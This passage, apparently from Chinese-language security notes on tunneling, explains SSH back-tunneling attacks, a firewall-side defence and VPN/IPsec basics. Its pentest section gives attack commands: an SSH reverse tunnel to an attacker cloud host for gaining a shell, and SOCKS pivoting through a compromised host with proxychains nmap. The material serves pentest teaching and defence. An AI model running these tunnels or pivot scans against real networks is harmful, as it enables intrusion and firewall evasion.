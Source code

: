在一个ssh back-tunneling攻击中，攻击者在目标网络(比如AWS)以外建立一个server,一旦攻击者进到目标系统中,他就能够从里面连接到外部的ssh server.大多数的组织都允许outgoing的ssh连接(至少如果他们在公有云上有server的话).这个ssh连接在建立的时候使能了tcp port forwarding:从外部server上的一个port到内部网络中server的一个ssh端口。建立这么一个ssh back-tunnel仅需要在inside中一条命令，并且容易自动化.大多数防火墙对这种情况基本无能为力.
CryptoAuditor是一个基于network的解决方案,它可以在防火墙处阻止未授权的ssh tunnel.它可以在防火墙处基于policy来解密ssh session，当然需要能够访问到host keys. 它也可以控制文件传输

** for pentest **

参考渗透测试内网穿透部分 /doc/coder2hacker/intranet_penetration

[Proxy servers and tunneling](https://developer.mozilla.org/en-US/docs/Web/HTTP/Proxy_servers_and_tunneling)



案例：

1.[实战课: 从"NAT端口转发"到"代理服务tunnel"拿shell](https://mp.weixin.qq.com/s?__biz=MzU1NTUyMzYzMg==&mid=2247483910&idx=1&sn=cdfe82e503449f46ad1a5f7f51876a33&chksm=fbd24959cca5c04f7f5cfbbb63e2230a7ba7c6134bc6f5c2241b394c8f9e57808f34bc9f2a8e&token=1983430103&lang=zh_CN#rd)

	+ NAT路由器端口转发
	+ 代理服务器tunnel `ssh -R443:localhost:443 -R444:localhost:444 -R445:localhost:445 -p8022 -lroot 云主机IP`

2.后渗透 pivot-内网扫描，参考《tools_metasploit》

```
通过控制的某个主机的meterpreter session来扫描整个内网
https://redteamnation.com/pivoting/

e.g. the compromised host 192.168.1.22 has access to a private network at 172.17.0.0/24.

方法一：使用proxychain
假设我们拿到主机192.168.1.22的ssh，我们可以开一个tunnel：
ssh -D 4444 admin@192.168.1.22
然后在attacker机器设置proxychains config：
注释掉proxy_dns，开启 socks4 127.0.0.1 4444
然后执行
proxychains nmap -Pn -sT 172.17.0.0/24
这样nmap就会通过444端口将流量转发到 192.168.1.22 主机上

方法二：使用 meterpreter autoroute
```

#### 2.6.4 VPN

A VPN tunnel, however, is fully encrypted. The "P in VPN indicates private. VPN tunnels are typically achieved with IPSeC, SSL, PPTP,  TCP Crypt (this is a new protocol), etc.

> A VPN is created by establishing a virtual point-to-point connection through the use of dedicated circuits or with tunneling protocols over existing networks. A VPN available from the public Internet can provide some of the benefits of a wide area network (WAN). From a user perspective, the resources available within the private network can be accessed remotely
> https://en.wikipedia.org/wiki/Virtual_private_network

##### IPSec
In computing, Internet Protocol Security (IPsec) is a secure network protocol suite that authenticates and encrypts packets of data to provide secure encrypted communication between two computers over an Internet Protocol network. It is used in virtual private networks (VPNs).
